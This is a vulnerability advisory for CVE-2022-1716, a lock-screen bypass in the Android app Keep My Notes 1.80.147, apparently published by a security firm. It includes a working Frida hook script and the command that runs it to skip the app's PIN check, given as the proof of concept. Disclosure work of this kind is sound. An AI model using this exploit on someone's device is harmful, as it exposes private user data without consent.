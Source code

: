 ```yaml
---
slug: advisories/tyler/
title: Keep My Notes 1.80.147 - Improper Access Control
authors: Carlos Bello
writer: cbello
codename: tyler
product: Keep My Notes 1.80.147
date: 2022-06-01 20:30 COT
cveid: CVE-2022-1716
severity: 6.1
description: Keep My Notes 1.80.147  -  Improper Access Control
keywords: Fluid Attacks, Security, Vulnerabilities, Keep My Notes, Kitetech
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Keep My Notes 1.80.147 - Improper Access Control       |
| **Code name**         | [Tyler](https://en.wikipedia.org/wiki/Steven_Tyler)    |
| **Product**           | Keep My Notes                                          |
| **Affected versions** | Version 1.80.147                                       |
| **State**             | Public                                                 |
| **Release date**      | 2022-06-01                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control                                                                                |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | No                                                                                                     |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 6.1                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1716](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1716)                          |

## Description

An attacker with physical access to the victim's device can
bypass the application's password/pin lock to access user data.
This is possible due to lack of adequate security controls to
prevent dynamic code manipulation.

## Proof of Concept

It is important to know that for a successful exploitation,
the "Continue" button must be clicked repeatedly.

https://user-images.githubusercontent.com/51862990/168275718-5f8e230f-54f1-4c7c-8393-c58f0dcfda2b.mp4

### Steps to reproduce

1. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).
2. Now just run this command to hook the `run` function so that it
   can be dynamically rewritten to bypass application protection.

   ```bash
   frida -U 'Keep My Notes' -l exploit.js
   ```

3. Now all you have to do is click the "Continue" button 3 or 4 times,
   then close the application and finally open it again.

### System Information

* Package Name: org.whiteglow.keepmynotes
* Application Label: Keep My Notes
* Mobile app version: 1.80.147
* OS: Android 8.0 (API 26)

## Exploit

```js
// exploit.js
Java.perform(() => {
    console.log("[+] Hooking LookScreenActivity - Class f - Method run");
    const LockScreenActivity = Java.use("org.whiteglow.keepmynotes.activity.LockScreenActivity");
    const f = Java.use("org.whiteglow.keepmynotes.activity.LockScreenActivity$f");
    f.run.implementation = () => {
        console.log("Bypass Lock Screen");
        LockScreenActivity.$new().d();
    }
})
```

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <http://www.kitetech.co/keepmynotes>

## Timeline

<time-lapse
  discovered="2022-05-12"
  contacted="2022-05-12"
  replied=""
  confirmed="2022-05-12"
  patched=""
  disclosure="2022-06-01">
</time-lapse>
